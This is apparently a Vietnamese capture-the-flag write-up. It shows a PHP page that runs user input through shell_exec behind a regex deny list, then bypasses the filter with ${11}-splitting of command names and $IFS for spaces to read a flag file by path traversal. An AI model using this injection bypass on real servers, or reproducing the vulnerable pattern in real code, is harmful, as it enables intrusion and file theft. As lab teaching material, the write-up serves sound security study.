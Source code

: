# Web Challenge 2
## Bắt đầu làm
```php
<?php
if(!isset($_GET['cmd'])){
    highlight_file(__FILE__);
}
else{
    $_GET['cmd']=addslashes($_GET['cmd']);
    if(preg_match("/cat|ls|head|\'|\"|less| |nl|echo|more|tail|grep|dir|tac|\>|\<|\=|\*|\&|\,|\`|\@/is",$_GET['cmd'])){
        die("bad linux user");
    }
    else{
        echo shell_exec($_GET['cmd']);
    }
}
?>
```
## Suy đoán lỗi có thể khai thác
Ta sẽ nhận ra một dòng lệnh kiến cho ta có thể đưa các shell code vào là shell_exec($_GET[‘cmd’]);
## Khai thác lỗi
Ta cần phải đưa Shellcode (ls, cat, ...)
## Vượt qua filter
Ta gặp một số filter như addslashes hay preg_match và hiển nhiên đã lọc đi các lệnh như ls, cat, ...
Tuy nhiên ta có thể sử dụng l${x}s và ca${x}t với x > 10 để vượt qua filter lọc các lệnh Linux.
Đồng thời ta có thể sử dụng $IFS như một mã lệnh đặc biệt để thay cho ký tự " " đã bị lọc.
## Đoạn mã
```
/?cmd=ca${11}t$IFS../../../flag.txt
```
## Kết quả
```
flag{b3st_b3st_b3st} 
```
